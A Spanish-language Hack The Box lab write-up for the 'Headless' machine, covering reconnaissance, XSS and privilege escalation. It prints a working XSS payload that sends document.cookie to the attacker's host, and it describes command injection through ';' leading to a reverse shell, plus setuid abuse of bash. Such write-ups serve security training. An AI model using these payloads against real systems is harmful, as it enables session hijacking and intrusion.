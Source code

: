 ```yaml
---
title: HTB Headless Writeup
date: 2024-07-27 08:00:00 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, XSS, BurpSuite]
comments: false
image:
    path: /assets/img/HTB-Headless/Headless.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Headless` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y de paso gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.8
PING 10.10.11.8 (10.10.11.8) 56(84) bytes of data.
64 bytes from 10.10.11.8: icmp_seq=1 ttl=63 time=117 ms

--- 10.10.11.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 117.141/117.141/117.141/0.000 ms
```

Vemos que el `ttl` de la máquina es de 63, el cual está próximo a 64 por ende nos encontramos ante una máquina `Linux`.

Ahora, con la herramienta `nmap` lanzamos un escaneo en donde vamos a enumerar los puertos que se encuentran abiertos en la máquina.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.8 -oG ports
```

Aquí generamos un archivo en formato grepeable y hacemos uso de la función <a href="https://gist.github.com/anibalardid/5e05b6472feb3d31116729dc24e6d3e2">extarctPorts</a> de <a href="https://s4vitar.github.io/">s4vitar</a>.

```bash
extractPorts ports
```

Ahora con el número de los puertos copiados en el portapapeles, lanzamos otro escaneo para enumerar el servicio que corren por los puertos.

```bash
nmap -sCV -p22,5000 10.10.11.8 -oN target
```

Aquí generamos un archivo en el formato normal de `nmap` en donde se nos muestra más información de los servicios que corren por esos puertos.

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Under Construction
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración Web

Bueno logramos ver que en la máquina por el puerto `5000` corre un servicio web, si lo vemos en el navegador nos dice que es un sitio en construcción y nos dan un apartado de soporte. Por el momento busquemos más rutas en la web.

```bash
ffuf -c -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.8:5000/FUZZ
```

Lgramos ver que nos reporta una ruta con un estado 401 (Unauthorized).

## XSS

Viendo la ruta `support`, lo primero en lo que podemos pensar es en un ataque del tipo `XSS`, así que allí vamos. Vemos que al ingresar algún tipo de `payload` nos devuelve un mensaje de intento de hacking y vemos nuestra petición tramitada.

Luego de varios intentos, pruebo a ingresar el payload en el `user agent` y en concreto este `<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>` fue el payload que me funciono.

![](/assets/img/HTB-Headless/1_Headless.png)

Después de unos segundos nos devuelve una cadena en `base64` y si vemos su contenido es una `cookie`. Podemos tratar de reemplazar este valor que obtuvimos en el apartado de `dashboard`.

## Ganando acceso

![](/assets/img/HTB-Headless/2_Headless.png)

Podemos ver que obtenemos acceso a algo que parece ser un generador de reportes mediante una fecha. Así que interceptamos esa petición con `BurpSuite`.

Luego de unas pruebas vemos que si ponemos un `;` luego de la fecha podemos ejecutar comandos.

![](/assets/img/HTB-Headless/3_Headless.png)

Para ganar acceso nos podemos ir a <a href="https://www.revshells.com/">esta</a> web y elegimos la `reverse shell (nc mkfifo)` en formato `URL encode`, o se puede usar cualquier otro payload que les funcione.

Una vez dentro hacemos en tratamiento de la tty.

```bash
script /dev/null -c bash

ctrl + z

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Y logramos ver la primera `flag`.

![](/assets/img/HTB-Headless/4_Headless.png)

## Escalada de privilegios

Si ejecutamos el comando `sudo -l` podemos ver que tenemos la posibilidad de ejecutar un `script` con privilegios `sudo` sin proporcionar contraseña. Sí analizamos un poco el script. Vemos que hay una condición en donde se ejecuta un archivo desde la ruta donde estés actualmente.

![](/assets/img/HTB-Headless/5_Headless.png)

Nos vamos a aprovechar de eso, vamos a crear un archivo con ese nombre para darle permisos `setuid` a la `bash`.

![](/assets/img/HTB-Headless/6_Headless.png)

Bueno, una vez hecho todo eso logramos ver la última `flag`.

